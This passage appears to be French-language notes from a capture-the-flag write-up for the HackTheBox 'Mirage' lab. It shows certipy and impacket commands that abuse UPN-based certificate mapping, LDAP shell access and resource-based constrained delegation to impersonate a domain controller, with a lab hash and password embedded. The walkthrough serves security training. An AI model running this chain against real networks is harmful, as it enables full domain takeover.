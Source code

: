 > [!TIP]
> Besoin d'un accès direct sur le serveur à impersonner afin de vérifier la valeur de la clé de registre CertificateMappingMethods dans HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SecurityProviders\SCHANNEL\.
> Si configuré pour autoriser l'UPN based mapping (0x4) alors exploitable avec un template de certificat enrollable par un user dont on peut modifier l'UPN !


Update l'UPN du user contrôlé avec celui du DC (mettre le FQDN)

```
certipy-ad account -u 'Mirage-Service$' -hashes :24cbbd8d239d53284f030ee9b4ff3684 -k -dc-ip '10.10.11.78'  -upn 'DC01$@mirage.htb' -user '<controlled_user>' update -target "dc01.mirage.htb"
```

Récupérer un TGT pour le user contrôlé et injecter le ticket.

```
impacket-getTGT mirage.htb/mark.bbond:'1day@atime' -dc-ip dc01.mirage.htb
export KRB5CCNAME=mark.bbond.ccache
```

Demander un certificat en utilisant le template User (Le certificat sera alors au nom du DC grâce à l'UPN).

```
certipy-ad req -k -dc-ip '10.10.11.78' -target 'DC01.MIRAGE.HTB' -ca 'mirage-DC01-CA' -template 'User'
```

Remettre l'UPN original sur le user contrôlé afin de ne pas faire de collision d'UPN.

```
export KRB5CCNAME=Mirage-Service\$.ccache
certipy-ad account -u 'Mirage-Service$' -hashes :24cbbd8d239d53284f030ee9b4ff3684 -k -dc-ip '10.10.11.78'  -upn 'mark.bbond@mirage.htb'  -user 'mark.bbond' update -target "dc01.mirage.htb"
```

Obtenir un shell ldap en tant que DC, en utilisant le certificat précédemment obtenu.

```
certipy-ad auth -dc-ip '10.10.11.78' \                                         -pfx dc01.pfx -ldap-shell
```

Créer une délégation contrainte basé sur les ressources (RBCD) afin d'autoriser un compte de machine à demander un Ticket de Service en tant que DC.

> [!WARNING]
> Le compte doit obligatoirement etre un compte de machine pour que cela fonctionne.

```
set_rbcd DC01$ MACHINE_ACCOUNT$
exit
```

Demander un Ticket de service pour se faire passer pour le DC.

```
impacket-getST -spn cifs/DC01.MIRAGE.HTB -impersonate "dc01$" -dc-ip 10.10.11.78 "mirage.htb/MACHINE_ACCOUNT$":"PASSWORD" 
```




